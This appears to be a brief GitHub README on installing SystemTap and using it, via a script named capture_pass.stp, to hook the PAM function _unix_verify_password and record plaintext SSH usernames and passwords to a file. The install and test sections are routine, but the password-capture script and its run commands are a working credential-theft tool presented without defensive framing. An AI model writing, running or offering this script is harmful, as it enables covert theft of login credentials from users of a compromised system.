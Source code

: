

== install
----
yum install -y systemtap systemtap-runtime

yum install -y kernel-devel-$(uname -r) \
kernel-debuginfo-$(uname -r) \
kernel-debuginfo-common-$(uname -m)-$(uname -r)
----

== test
----
stap -v -e 'probe vfs.read {printf("read performed\n"); exit()}'
----

== capture ssh password
capture_pass.stp
----
#!/usr/bin/stap
global username, pass, isSuccRet = 1;
probe process("/lib64/security/pam_unix.so").function("_unix_verify_password")
{
username = user_string($name);
pass = user_string($p);
}
probe process("/lib64/security/pam_unix.so").function("_unix_verify_password").return
{
if ($return == 0)
{
printf("User: %s\nPassword: %s\n\n", username, pass);
isSuccRet = 0;
}
}
probe process("/lib64/security/pam_unix.so").function("pam_sm_open_session")
{
if (isSuccRet != 0)
{
printf("Login via ssh service.\n\User: %s\nPassword: %s\n\n", username, pass);
}
isSuccRet = 1;
}
----

----
chmod +x capture_pass.stp
stap capture_pass.stp -o password.txt
----


https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html-single/systemtap_beginners_guide/index